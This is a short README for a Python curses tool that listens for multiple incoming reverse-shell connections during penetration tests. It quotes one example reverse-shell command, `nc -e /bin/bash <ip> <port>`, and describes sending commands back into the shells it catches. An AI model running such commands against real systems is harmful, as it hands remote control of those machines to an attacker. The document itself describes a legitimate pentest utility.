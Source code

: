 # mrsl
Multi reverse shell/session listener

Simple python script that uses the curses module to present a console based UI for listening for multiple incoming connnections on a defined port. Originally created to listen for multiple reverse shells during pentests where not using metasploit, think listening for multiple \`nc -e /bin/bash <ip> <port>\` connections. It can also be used for just listening for incoming connections on an arbitrary port, for instance listening on port 80 on the internet can be interesting.

Current features:
* Automatic logging of all connections to a file, named ```<IP>--<timestamp>.log```
* Ability to see all active connections and switch between them
* Ability to type data back, i.e. to run commands in reverse shell or return data to HTTP connections


More features are planned, but the initial version was created just to serve a current need.

Feedback and pull requests for bugfixes and features are welcome.

